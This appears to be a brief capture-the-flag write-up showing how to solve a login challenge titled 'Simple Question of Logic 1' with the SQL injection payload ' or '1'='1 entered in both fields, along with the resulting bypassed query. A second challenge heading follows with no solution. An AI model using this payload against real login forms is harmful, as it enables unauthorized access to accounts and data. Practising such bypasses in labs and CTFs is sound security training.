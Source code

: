 ## Simple Question of Logic 1
- use this in both fields (cf. [inject](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html))
```erlang
_' or '1'='1
_' or '1'='1
```
- to trick sql
```erlang
$query = "select * from users where user = '_' OR '1'='1' and pw = '_' OR '1'='1'";
```
ps. standard first test: `' or '1'='1`
## Simple Question of Logic 2
use this in both fields
